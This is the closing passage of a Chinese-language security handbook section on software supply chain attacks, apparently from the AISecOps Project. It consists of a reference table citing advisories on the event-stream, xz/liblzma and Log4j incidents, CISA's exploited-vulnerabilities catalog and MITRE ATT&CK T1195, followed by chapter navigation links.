| [4] | GitHub Advisory Database | Malicious code in event-stream / flatmap-stream | 2018-11 | <https://github.com/advisories/GHSA-mh6f-8j2x-4483> |
| [5] | Openwall oss-security | Andres Freund, backdoor in upstream xz/liblzma leading to ssh server compromise | 2024-03-29 | <https://www.openwall.com/lists/oss-security/2024/03/29/4> |
| [6] | CISA | Reported Supply Chain Compromise Affecting XZ Utils Data Compression Library (CVE-2024-3094) | 2024-03-29 | <https://www.cisa.gov/news-events/alerts/2024/03/29/reported-supply-chain-compromise-affecting-xz-utils-data-compression-library-cve-2024-3094> |
| [7] | NIST NVD | CVE-2021-44228（Apache Log4j2 JNDI RCE，CVSS 10.0） | 2021-12-10 | <https://nvd.nist.gov/vuln/detail/CVE-2021-44228> |
| [8] | CISA | Known Exploited Vulnerabilities Catalog | 2026 访问 | <https://www.cisa.gov/known-exploited-vulnerabilities-catalog> |
| [9] | MITRE | ATT&CK T1195: Supply Chain Compromise | 2026 访问 | <https://attack.mitre.org/techniques/T1195/> |

---

## 导航

[← 上一节：7.1 软件供应链安全战略](./7.1_软件供应链安全战略.md) | [返回章节目录](./README.md) | [下一节：7.3 开源组件治理 →](./7.3_开源组件治理.md)

---

© 2025-2026 AISecOps Project. Licensed under CC BY-NC-SA 4.0
